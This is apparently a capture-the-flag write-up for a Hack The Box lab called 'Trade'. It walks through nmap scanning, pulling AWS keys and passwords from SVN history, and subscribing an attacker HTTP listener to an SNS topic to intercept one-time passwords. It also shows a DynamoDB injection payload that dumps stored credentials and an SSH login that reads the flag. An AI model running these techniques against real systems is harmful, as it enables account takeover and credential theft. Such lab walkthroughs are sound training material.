




# [Cloud] Trade

We are given an IP address. Let’s scan it:
```
$ nmap -A -T4 -Pn 10.129.227.204
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-15 22:14 +08
Nmap scan report for 10.129.227.204
Host is up (0.18s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp   open  http       Apache httpd 2.4.41
|_http-server-header: Werkzeug/2.1.2 Python/3.8.10
|_http-title: Monkey Backdoorz
3690/tcp open  svnserve   Subversion
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Interesting, we got a webapp with a login page, and a SVN repo. Let’s check it out:

```
$ svn checkout svn://10.129.227.204
A    store
A    store/README.md
A    store/dynamo.py
A    store/sns.py
Checked out revision 5.
```

Reading the dynamo.py file, we get:

```
$ tail -n10 store/dynamo.py
client.put_item(TableName='users',
    Item={
        'username': {
            'S': 'marcus'
        },
        'password': {
            'S': 'dFc42BvUs02'
        },
    }
    )
```

Great, we can login to the webapp! However there is a OTP to pass.

Let's go through the SVN repo again:
```
$ svn up -r 2
Updating '.':
A    store/sns.py
Updated to revision 2.

$ cat store/sns.py
[...redacted...]
region = 'us-east-2'
max_threads = os.environ['THREADS']
log_time = os.environ['LOG_TIME']
access_key = 'AKIA5M34BDN8GCJGRFFB'
secret_access_key_id = 'cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'

# Initialize clients
s3 = boto3.client('s3', region_name=region, endpoint_url='http://cloud.htb',aws_access_key_id=access_key,aws_secret_access_key=secret_access_key_id)
sns = boto3.client('sns', region_name=region, endpoint_url='http://cloud.htb',aws_access_key_id=access_key,aws_secret_access_key=secret_access_key_id)
```

Great, we got AWS credentials. We also see that it is using a specific endpoint, probably with [LocalStack](https://localstack.cloud/).

Let’s set our `/etc/hosts` with `10.129.227.204 cloud.htb`, and set our aws profile:
```
$ tail -n2 ~/.aws/config
[profile htb_trade]
region = us-east-2

$ tail -n3 ~/.aws/credentials
[htb_trade]
aws_access_key_id = AKIA5M34BDN8GCJGRFFB
aws_secret_access_key = cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn

$ export AWS_PROFILE=htb_trade
```

We can now interact with the LocalStack:

```
$ aws --endpoint-url=http://cloud.htb sts get-caller-identity
{
    "UserId": "AKIAIOSFODNN7DXV3G29",
    "Account": "000000000000",
    "Arn": "arn:aws:iam::000000000000:user/tom"
}
```

Since it is using SNS, that is probably how the OTP is transmitted to the user:

```
$ aws --endpoint-url=http://cloud.htb sns list-topics
{
    "Topics": [
        {
            "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp"
        }
    ]
}
```

Indeed!

After few tries, we setup a [local web server](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) that displays the body of POST requests received, on the VPN IP address:
```
$ cat test.py
#!/usr/bin/env python3
"""
Very simple HTTP server in python for logging requests
Usage::
    ./server.py [<port>]
"""
from http.server import BaseHTTPRequestHandler, HTTPServer
import logging

class S(BaseHTTPRequestHandler):
    def _set_response(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()

    def do_GET(self):
        logging.info("GET request,\nPath: %s\nHeaders:\n%s\n", str(self.path), str(self.headers))
        self._set_response()
        self.wfile.write("GET request for {}".format(self.path).encode('utf-8'))

    def do_POST(self):
        content_length = int(self.headers['Content-Length']) # <--- Gets the size of data
        post_data = self.rfile.read(content_length) # <--- Gets the data itself
        logging.info("POST request,\nPath: %s\nHeaders:\n%s\n\nBody:\n%s\n",
                str(self.path), str(self.headers), post_data.decode('utf-8'))

        self._set_response()
        self.wfile.write("POST request for {}".format(self.path).encode('utf-8'))

def run(server_class=HTTPServer, handler_class=S, port=4445):
    logging.basicConfig(level=logging.INFO)
    server_address = ('10.10.14.30', port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting httpd...\n')
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()
    logging.info('Stopping httpd...\n')

if __name__ == '__main__':
    from sys import argv

    if len(argv) == 2:
        run(port=int(argv[1]))
    else:
        run()
```

Now, let’s subscribe to the topic and add our Python webserver as recipient, with the http protocol:

```
$ aws --endpoint-url=http://cloud.htb sns subscribe --topic-arn arn:aws:sns:us-east-2:000000000000:otp --protocol http --notification-endpoint http://10.10.14.30:4444
{
    "SubscriptionArn": "arn:aws:sns:us-east-2:000000000000:otp:eb59226b-c1c4-44c1-8fd9-bbd06f504d4d"
}
```

We receive the callback to our endpoint with the token to confirm the subscription:

```
$ python test.py
INFO:root:Starting httpd...

INFO:root:POST request,
Path: /
Headers:
Host: 10.10.14.30:4445
User-Agent: Amazon Simple Notification Service Agent
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: text/plain
x-amz-sns-message-type: SubscriptionConfirmation
x-amz-sns-topic-arn: arn:aws:sns:us-east-2:000000000000:otp
x-amz-sns-subscription-arn: arn:aws:sns:us-east-2:000000000000:otp:9eac8610-000d-48b1-af96-4cc4aeeca4d0
Content-Length: 831

Body:
{"Type": "SubscriptionConfirmation", "MessageId": "136464bf-9c9e-46a5-939e-7031230e70e9", "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp", "Message": "You have chosen to
subscribe to the topic arn:aws:sns:us-east-2:000000000000:otp.\nTo confirm the subscription, visit the SubscribeURL included in this message.", "Timestamp":
"2022-07-15T15:52:40.437Z", "SignatureVersion": "1", "Signature": "EXAMPLEpH+..", "SigningCertURL":
"https://sns.us-east-1.amazonaws.com/SimpleNotificationService-0000000000000000000000.pem", "SubscribeURL":
"http://localhost:4566/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-2:000000000000:otp&Token=caa5fc57", "Token": "caa5fc57", "UnsubscribeURL":
"http://localhost:4566/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-2:000000000000:otp:9eac8610-000d-48b1-af96-4cc4aeeca4d0"}
```

Using that `caa5fc57` token:
```
$ aws --endpoint-url=http://cloud.htb sns confirm-subscription --topic-arn arn:aws:sns:us-east-2:000000000000:otp --token caa5fc57 
```

Finally, we can login with the credentials we found earlier:
```
marcus
dFc42BvUs02
```
And wait our Python webserver receive the OTP:

```
Body:
{"Type": "Notification", "MessageId": "e7a4e545-077e-401c-acd7-37b7c8a62ca3", "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp", "Message": "{\"otp\": \"82786380\"}",
"Timestamp": "2022-07-15T15:54:13.468Z", "SignatureVersion": "1", "Signature": "EXAMPLEpH+..", "SigningCertURL":
"https://sns.us-east-1.amazonaws.com/SimpleNotificationService-0000000000000000000000.pem", "UnsubscribeURL":
"http://localhost:4566/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-2:000000000000:otp:9eac8610-000d-48b1-af96-4cc4aeeca4d0"}
```

Sweet!



Navigating the website, we see a search, that is vulnerable to a SQLi. Here the backend is DynamoDB:



Using the payload, from the [doc](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html):
```
"}]},"servername":{"ComparisonOperator":"NE","AttributeValueList":[{"S":"lol
```

We can have all the records



From our nmap, we remember that a SSH port is open. Let’s try them all!
```
mario
cD034%hJqW10
```

Is working:
```
$ ssh mario@10.129.227.204
[...]
mario@trade:~$

mario@trade:~$ cat flag.txt
HTB{dyn4m0_1nj3ct10ns_4r3_w31rd_4bFgc1!}
```


